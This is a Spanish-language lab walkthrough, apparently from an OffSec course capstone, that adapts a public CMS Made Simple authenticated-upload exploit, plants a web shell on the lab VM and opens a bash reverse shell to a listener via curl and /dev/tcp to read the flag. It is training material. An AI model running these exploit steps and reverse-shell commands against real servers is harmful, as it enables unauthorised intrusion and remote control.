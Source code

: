 # Walk : Fixing Exploits - Fixing Web Exploits - Module Exercise VM #1 

## Fecha: 12/06/2025
## Host: Linux
## IP: 192.168.161.52
## Objetivo
Capstone Lab: To put in practice what we learned so far, here is the full vulnerable CMS Made Simple. 
You recovered the credentials for the admin on this service who is the user offsec with the password lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ. 
Use this information to exploit the service on VM 1 that is running on http://[IP_ADDRESS]/cmsms and read /home/flag.txt to solve this challenge.

## Procedimiento y comandos

#### Paso 1: Arreglamos el script a nuestras necesidades:

1. Modificamos la variable **base_url** con nuestro traget

* base_url = "http://192.168.161.52/cmsms/admin"

2. Modificamos las variables username y password por defecto con las que se nos proveen en el capstone

* Username = offsec
* password = "lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ"

3. Agregamos en la funcion **authenticate** un punto de debuging:
```bash
print "[*] Location header: {}".format(response.headers.get('Location', 'None'))
```
4. Modificamos la variable **csrf_param**

* csrf_param = "_sk_"

5. Modificamos la funcion parse_csrf_token:
```bash
def parse_csrf_token(location):
    if csrf_param + "=" in location:
        return location.split(csrf_param + "=")[1].split("&")[0]
    else:
        print "[-] CSRF token not found in location header"
        return None
```
#### Flujo de prueba y error completo:

```bash
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=393c7b7c7c19aed6eef
Traceback (most recent call last):
  File "44976_fixed_cap.py", line 104, in <module>
    run()
  File "44976_fixed_cap.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_fixed_cap.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_fixed_cap.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range

┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# nano 44976_fixed_cap.py
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=393c7b7c7c19aed6eef
Traceback (most recent call last):
  File "44976_fixed_cap.py", line 104, in <module>
    run()
  File "44976_fixed_cap.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_fixed_cap.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_fixed_cap.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# nano 44976_fixed_cap.py
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=b4e217c2d4046d5dc53
[*] Attempting to upload cmsmsrce.txt...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: http://192.168.161.52/cmsms/uploads/shell.php                                              

```
#### Paso 2: Obtenemos un reverse shell:
1. Con nc escuchando en el puerto 4444 ejecutamos:
```bash
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# curl "http://192.168.161.52/cmsms/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.45.213/4444%200%3E%261'"

```
2. En el receptor
```bash
┌──(root㉿kali)-[/home/kali/OffSec/14-FixingExploits/02-WebExploits]
└─# nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [192.168.45.213] from (UNKNOWN) [192.168.161.52] 59702
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@82bc94b327af:/var/www/html/cmsms/uploads$ 
```
#### Obtenemos el flag:

```bash
www-data@82bc94b327af:/var/www/html/cmsms/uploads$ cd /
cd /
www-data@82bc94b327af:/$ cd home
cd home
www-data@82bc94b327af:/home$ ls
ls
flag.txt
www-data@82bc94b327af:/home$ cat flag.txt
cat flag.txt
OS{3b3bd6e155c59a8f18fec11c345e2836}
www-data@82bc94b327af:/home$ 
```

## Troubleshooting
* El script esta en **python2**


